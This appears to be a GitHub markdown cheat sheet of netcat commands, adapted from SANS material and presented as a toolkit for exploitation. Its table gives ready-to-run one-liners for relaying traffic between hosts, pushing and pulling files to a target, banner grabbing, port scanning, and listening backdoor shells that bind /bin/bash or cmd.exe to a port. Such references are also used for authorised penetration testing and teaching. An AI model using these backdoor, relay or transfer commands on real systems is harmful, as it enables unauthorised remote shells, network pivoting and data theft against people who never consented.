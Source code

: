 # Netcat Usage

`netcat` is a command-line or shell application that can be used for a wide variety of exploitation matters including transferring files, establishing remote shells and more! The official netcat site is http://netcat.sourceforge.net and, although Sourceforge has this repository, most Unix/Linux operating systems have a netcat application that is/can be installed via their packagers (apt-get, ports, etc.).

The [SANS Institute](http://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) has a very good "Cheat Sheet" PDF for netcat commands and functions. Please **note** that "All syntax is designed for the original netcat versions, released by Hobbit and Weld Pond. The syntax here can be adapted for other netcats." So, you may need to modify the commands below. Please do check out their PDF.

## Relays on Linux
Before you do any of the Linux relays with netcat below, please do the following:
``$ cd /tmp
$ mknod backpipe p
``

## Commands
| Command  | Category | Description / Importance |
| -------- | -------- | ------------------------ |
| `C:\> nc -l -p [LocalPort] -e relay.bat` <br> `C:\> echo nc [TargetIPaddr] [port] > relay.bat` | Relay - Windows | **Listener-to-Client Relay** - Create a relay that sends packets from the local port [LocalPort] to a netcat client connected to [TargetIPaddr] on port [port] |
| `$ nc -l -p [LocalPort] 0<backpipe` &#124; `nc [TargetIPaddr] [port]` &#124; `tee backpipe` | Relay - Linux | **Listener-to-Client Relay** - Create a relay that sends packets from the local port [LocalPort] to a netcat client connected to [TargetIPaddr] on port [port] |
| `C:\> echo nc -l -p [LocalPort_2] > relay.bat`<br>`C:\> nc -l -p [LocalPort_1] -e relay.bat` | Relay - Windows | **Listener-to-Listener Relay** - Create a relay that will send packets from any connection on {LocalPort_1] to any connection on [LocalPort_2] |
| `$ nc -l -p [LocalPort_1] 0<backpipe` &#124; `nc -l -p [LocalPort_2]` &#124; `tee backpipe` | Relay - Linux | **Listener-to-Listener Relay** - Create a relay that will send packets from any connection on {LocalPort_1] to any connection on [LocalPort_2] |
| `C:\> echo nc [NextHopIPaddr] [port2] > relay.bat`<br>`C:\> nc [PreviousHopIPaddr] [port] -e relay.bat` | Relay - Windows | **Client-to-Client Relay** - Create a relay that will send packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2] |
| `$ nc [PreviousHopIPaddr] [port] 0<backpipe` &#124; `nc [NextHopIPaddr] [port2]` &#124; `tee backpipe` | Relay - Linux | **Client-to-Client Relay** - Create a relay that will send packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2] |
| **Client:** `nc -l -p [LocalPort] > [outfile]`<br>**Listener:** `nc -w3 [TargetIPaddr] [port] < [infile]` | File Transfer - All OS | Push [infile] to [TargetIPaddr] on [port] |
| **Listener:** `nc -l -p [LocalPort] < [infile]`<br>**Client:** `nc -w3 [TargetIPaddr] [port] > [outfile]` | File Transfer - All OS | Connect to [TargetIPaddr] on [port] and retrieve [outfile] |
| `echo ""` &#124; `nc -v -n -w1 [TargetIPaddr] [start_port] [end_port]` | TCP Banner Grabber | Attempt to connect to each port in a range from [end_port] to [start_port] on [TargetIPaddr]. Then send a blank string to the open port and print out any banner received in response. | 
| `nc -v -n -z -w1 [TargetIPaddr] [start_port] [end_port]` | TCP Port Scanner | Attempt to connect to each port in a range from [end_port] tp [start_port] on IP address [TargetIPaddr]. |
| `$ nc -l -p [LocalPort] -e /bin/bash` | Backdoor - Linux | Listening backdoor shell for a Linux computer. Use a netcat client to connect to the target's IP address on the [LocalPort] and you will get a BASH shell. |
| `$ nc -l -p [LocalPort] -e cmd.exe` | Backdoor - Windows | Listening backdoor shell for a Windows computer. Use a netcat client to connect to the target's IP address on the [LocalPort] and you will get a CMD shell. |
